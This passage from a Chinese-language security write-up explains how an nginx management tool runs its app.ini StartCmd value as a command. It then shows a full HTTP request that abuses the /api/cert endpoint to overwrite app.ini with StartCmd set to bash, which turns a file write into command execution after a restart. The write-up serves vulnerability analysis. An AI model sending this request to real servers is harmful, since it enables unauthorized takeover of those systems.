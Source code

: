 这里`StartCmd`参数中的值会被`c := exec.Command(settings.ServerSettings.StartCmd)`执行，所以我们只需要将我们想要执行的名通过`StartCmd`参数写入 app.ini 配置文件，app,ini 为程序启动的配置文件，在程序重新启动时便可以执行我们想要的命令。  
[![](assets/1707954186-1322308a60ed09da59d64d75b2c316d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204224752-5fe670c4-c36c-1.png)

这里的利用思路很巧妙，不过缺点在于需要重新启动程序。这里也可以利用常用的文件写入的利用思路。

```plain
POST /api/cert HTTP/1.1
Host: 127.0.0.1:9000
Content-Length: 980
Accept: application/json, text/plain, */*
Authorization: <JWT>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,fr;q=0.7
Connection: close

{"name":"poc","ssl_certificate_path":"/root/nginx/app.ini","ssl_certificate_key_path":"/tmp/test2","ssl_certificate":"[server]\r\nHttpHost          = 0.0.0.0\r\nHttpPort          = 9000\r\nRunMode           = debug\r\nJwtSecret         = 504f334b-ac68-4fbc-9160-2ecbf9e5794c\r\nNodeSecret        = 139ab224-9e9e-444f-987e-b3a651175ad5\r\nHTTPChallengePort = 9180\r\nEmail             = props@pros.com\r\nDatabase          = database\r\nStartCmd          = bash\r\nCADir             = dqsdqsd\r\nDemo              = false\r\nPageSize          = 10\r\nGithubProxy       = dqsdqfsdfsdfsdfsd\r\n\r\n[nginx]\r\nAccessLogPath =\r\nErrorLogPath  =\r\nConfigDir     =\r\nPIDPath       =\r\nTestConfigCmd =\r\nReloadCmd     =\r\nRestartCmd    =\r\n\r\n[openai]\r\nBaseUrl = \r\nToken   =\r\nProxy   =\r\nModel   = \r\n\r\n[casdoor]\r\nEndpoint     =\r\nClientId     =\r\nClientSecret =\r\nCertificate  =\r\nOrganization =\r\nApplication  =\r\nRedirectUri  =","ssl_certificate_key":"test2"}
```

[![](assets/1707954186-cf2f547d1dec3508cc7c7332da6b415f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204224819-6fd1dd20-c36c-1.png)  